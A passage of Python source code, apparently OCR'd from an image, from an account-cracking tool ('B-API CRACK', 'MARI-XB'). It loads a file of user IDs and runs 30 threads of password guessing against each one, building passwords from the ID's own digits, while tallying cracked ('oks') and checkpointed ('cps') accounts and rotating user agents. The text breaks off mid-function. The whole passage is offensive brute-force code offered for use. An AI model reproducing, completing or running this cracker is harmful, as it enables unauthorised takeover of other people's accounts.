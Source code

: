     with ThreadPool(max_workers=30) as BilalHaiderID:
        total = str(len(file_data.splitlines()))
        logo()
        print(f" {green}[*]{white}  Total UID for Crack : {total}")
        print(f" {green}[*]{white}  Total Password for Crack : {str(len(pwx))}")
        print(f" {green}[*]{white}  File Path : {fileX}")
        print(50*'-')
        uidX = file_data.splitlines()
        for uid in uidX:
            BilalHaiderID.submit(bapif,uid,pwx,total)
    print(50*"-")
    print(f"\n{white}[{green}â€¢{white}] The process Has been Completed")
    print(f"{white}[{green}â€¢{white}] Total Ids : {len(oks)} ")
#___________[ B-API CRACK ]________>>
def bapi(uid,pwx,total):
    global oks,cps
    global ualist
    global cracked
    try:
        last7digit = uid[int(len(uid))-7:]
        last6digit = uid[int(len(uid))-6:]
        first6digit = uid[0:6]
        fullnumber = uid
        sys.stdout.write(f'\r\r[{green}MARI-XB{white}] {len(cracked)}\{total} - {green}{len(oks)}{white}\{rad}{len(cps)}{white} ');sys.stdout.flush()
        for pw in pwx:
            pw = pw.replace("last7digit",last7digit)
            pw = pw.replace("last6digit",last6digit)
            pw = pw.replace("first6digit",first6digit)
            pw = pw.replace("fullnumber",fullnumber)
            useragent = str(ua_api())